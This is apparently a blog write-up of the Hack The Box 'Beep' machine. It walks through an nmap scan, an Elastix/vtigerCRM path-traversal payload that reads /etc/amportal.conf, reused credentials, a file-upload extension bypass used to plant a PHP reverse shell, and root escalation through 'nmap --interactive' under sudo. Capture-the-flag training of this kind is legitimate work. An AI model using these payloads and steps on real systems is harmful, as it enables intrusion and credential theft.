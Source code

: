 ```yaml
---
"title": "Hack The Box - Beep"
"date": 2019-12-01
"tags": ["linux", "easy", "setuid", "cve", "lfi", "file-upload-vuln"]
"keywords": ["linux", "easy", "setuid", "cve", "lfi", "file-upload-vuln"]
"categories": "HackTheBox OSCP-Like"
"author": "Ghostbyt3"
"description": "We are going to pwn Beep from Hack The Box."
"featured_image": "/img/htb-beep/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-beep/1.png)

We are going to pwn Beep from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/5](https://www.hackthebox.eu/home/machines/profile/5)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt


22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|printer|specialized
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (95%), Osmosys embedded (94%), HP embedded (94%), Enterasys embedded (94%), Riverbed RiOS (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.6.18 cpe:/h:linksys:wrv54g cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:enterasys:ap3620 cpe:/o:riverbed:rios cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.18 (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.30 (95%), Linux 2.6.5 (Fedora Core 2) (95%), Linux 2.6.5 - 2.6.12 (95%), Elastix PBX (Linux 2.6.18) (95%), Linksys WRV54G WAP (95%), Linux 2.6.27 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  beep.localdomain
80/tcp    open   http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open   pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS EXPIRE(NEVER) APOP UIDL RESP-CODES PIPELINING AUTH-RESP-CODE TOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open   rpcbind    2 (RPC #100000)
143/tcp   open   imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ANNOTATEMORE ID ATOMIC OK LISTEXT URLAUTHA0001 Completed QUOTA IMAP4rev1 LIST-SUBSCRIBED SORT LITERAL+ X-NETSCAPE RIGHTS=kxte MAILBOX-REFERRALS CONDSTORE IMAP4 UIDPLUS IDLE SORT=MODSEQ MULTIAPPEND THREAD=ORDEREDSUBJECT THREAD=REFERENCES UNSELECT CHILDREN BINARY STARTTLS NAMESPACE NO RENAME ACL CATENATE
443/tcp   open   ssl/https?
|_ssl-date: 2019-12-01T13:40:51+00:00; +1h00m15s from scanner time.
878/tcp   open   status     1 (RPC #100024)
993/tcp   open   ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open   pop3       Cyrus pop3d
3306/tcp  open   mysql      MySQL (unauthorized)
4190/tcp  open   sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open   upnotifyp?
4559/tcp  open   hylafax    HylaFAX 4.3.10
5038/tcp  open   asterisk   Asterisk Call Manager 1.1
10000/tcp open   http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/1%OT=22%CT=5%CU=35487%PV=Y%DS=2%DC=T%G=Y%TM=5DE3B55
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=CC%GCD=1%ISR=CC%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## HTTP Enumeration

While checking the webpage , it is an ``Elastix Login page``[br/](br/)
![Untitled](/img/htb-beep/2.png)

So I searched in Searchsploit but there is more exploit and I cant find any version of it in the webpage 
![Untitled](/img/htb-beep/3.png)

Lets start randomly and this one looks interesting 

> https://www.exploit-db.com/exploits/37637


``` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action ```

This is an LFI exploit and it worked!
![Untitled](/img/htb-beep/4.png)

And I found some credentials

![Untitled](/img/htb-beep/5.png)

``` admin:jEhdIekWmdjE ```

Using the same LFI let's see ``/etc/password`` and found an user ``fanis``
![Untitled](/img/htb-beep/6.png)

We know the user so I tried to see the user flag
![Untitled](/img/htb-beep/7.png)
And yeah, I got the user flag!!

Now Lets try to log in and see what in ``Elastix``
![Untitled](/img/htb-beep/8.png)
I cant find any vulnerabilities or any loop holes.

## Method 1 of getting Root

I checked if there is any other vulnerability available on other ports and It doesnt look like any so I just tried login with the creds we found from the LFI in ssh ```root:jEhdIekWmdjE```
![Untitled](/img/htb-beep/9.png)

We are root!

## Method 2 (File Upload Vulnerability)

From the LFI I came to know there is another login page ``/vtigercrm`` it is an ``vtigerCRM``
![Untitled](/img/htb-beep/10.png)

I tried login with the same creds we found before ``admin:jEhdIekWmdjE``
![Untitled](/img/htb-beep/11.png)
It looks like they use same creds for all xD

I found we can change the logo so we can try to upload our payload.
It is in Settings -> Company Details
![Untitled](/img/htb-beep/12.png)

I uploaded my reverse shell as ``shell.php.jpg`` and intercept it with burp and then change the extension back to ``shell.php``

![Untitled](/img/htb-beep/13.png)

I changed the extension to ``.php`` and forwarded. 

![Untitled](/img/htb-beep/14.png)

I check the source code to see the location of the logo.

![Untitled](/img/htb-beep/15.png)
It is in ``/test/logo/``

So listening on my machine, I got the shell[br/](br/)
![Untitled](/img/htb-beep/16.png)

## Privilege Escalation

While checking ``sudo -l``[br/](br/)
![Untitled](/img/htb-beep/17.png)

User ``asterisk`` can run these without root permission so i chose ``nmap`` from this.

I searched in GTFOBins

>[https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)

So I tried it

```
nmap --interactive
nmap> !sh
```
![Untitled](/img/htb-beep/18.png)

I'm Root now!


